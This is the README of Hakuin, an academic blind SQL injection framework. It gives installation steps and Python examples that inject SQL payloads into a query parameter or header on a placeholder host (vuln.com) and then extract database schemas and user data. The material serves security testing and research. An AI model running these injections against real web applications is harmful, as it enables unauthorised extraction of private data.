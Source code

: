 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Make sure to read our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) or see the [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).

Hakuin been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023



## Installation
To install Hakuin, simply run:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip install .
```
Developers should set the `-e` flag to install the framework in editable mode:
```bash
pip install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Exfiltrator` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Exfiltrator, Requester

class StatusRequester(Requester):
    ...

exf = Exfiltrator(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Exfiltrator(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# mode:
#   'binary_search':    Use binary search
#   'model_search':     Use pre-trained models
schema = exf.exfiltrate_schema(mode='model_search')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.exfiltrate_schema(mode='model_search', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.exfiltrate_tables(mode='model_search')
columns = exf.exfiltrate_columns(table='users', mode='model_search')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# mode:
#   'binary_search':    Use binary search
#   'adaptive_search':  Use five-gram model
#   'unigram_search':   Use unigram model
#   'dynamic_search':   Dynamically identify the best strategy. This setting
#                       also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', mode='dynamic_search'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
